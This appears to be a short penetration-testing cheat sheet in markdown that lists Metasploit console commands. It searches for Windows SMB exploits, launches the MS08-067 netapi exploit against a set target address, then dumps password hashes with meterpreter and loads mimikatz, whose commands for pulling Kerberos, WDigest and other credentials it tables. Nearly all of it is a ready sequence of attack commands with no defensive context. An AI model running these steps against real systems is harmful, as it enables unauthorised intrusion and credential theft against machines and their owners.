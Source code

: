 ## msfconsole (msf | metaspolit)

#### Search

##### Search for SMB Exploits on Windows
`msf > search exploit/windows/smb`

#### Options

##### exploit/windows/smb/ms08_067_netapi Options
`msf exploit(ms08_067_netapi) > show options`

#### Attack

##### Attack SMB for Windows
`msf > use exploit/windows/smb/ms08_067_netapi`

`msf exploit(ms08_067_netapi) > set RHOST 10.37.129.9`

`msf exploit(ms08_067_netapi) > set RPORT 445`

`msf exploit(ms08_067_netapi) > exploit`

#### meterpreter

##### help
`meterpreter > help`

##### hashdump
`meterpreter > hashdump`

#### mimikatz

##### load mimikatz
`meterpreter > load mimikatz`

##### options

Command | Description
--- | ---
kerberos | Attempt to retrieve kerberos creds
livessp | Attempt to retrieve livessp creds
mimikatz_command | Run a custom command
msv | Attempt to retrieve msv creds (hashes)
ssp | Attempt to retrieve ssp creds
tspkg | Attempt to retrieve tspkg creds
wdigest | Attempt to retrieve wdigest creds
